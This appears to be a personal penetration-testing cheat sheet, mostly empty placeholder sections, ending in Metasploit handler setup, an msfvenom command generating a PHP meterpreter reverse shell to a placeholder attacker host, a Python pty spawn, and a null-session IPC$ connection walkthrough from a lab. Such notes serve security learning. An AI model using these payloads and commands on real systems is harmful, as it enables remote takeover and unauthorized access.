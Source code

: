 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```



<details open><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details open><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details open><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details open><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details open><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details open><summary> <b>NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details open><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details open><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        content 1.2
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details open><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details> 
  <summary> <b>Shells</b> </summary>
</details>


<br/>



<details open><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
    :smile:
  </blockquote></details>
  <details open><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

## Metasploit
#### ./ Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
